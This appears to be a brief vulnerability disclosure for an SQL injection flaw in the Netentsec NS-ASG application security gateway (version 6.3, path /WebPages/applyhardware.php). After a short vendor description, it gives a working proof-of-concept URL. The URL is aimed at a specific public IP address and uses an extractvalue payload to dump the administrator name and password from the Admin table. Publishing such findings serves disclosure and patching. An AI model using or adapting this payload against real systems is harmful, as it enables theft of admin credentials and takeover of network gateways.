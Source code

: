 Beijing Wangkang Technology Co., Ltd. is a leading provider of network application management equipment in China, focusing on the latest trend research and analysis in the field of network application management. It provides users with advanced network application management technology, products, and solutions, aiming to help users achieve the goal of "using the internet well" in network management.

There is an SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.

official： https://www.netentsec.com/

version:6.3

Vulnerability Path ： /WebPages/applyhardware.php


https://1.85.53.53/WebPages/applyhardware.php?action=applyhardware&hard_user=test%2527%20and%20extractvalue(0x1,%20concat(0x1,%20(select%20concat(adminname,%200x7e,%20passwd)%20from%20Admin%20limit%201)))%20%23

<img width="722" alt="图片" src="https://github.com/hundanchen69/cve/assets/124319989/02611718-efe2-4b01-aa8e-c02732f95c4a">

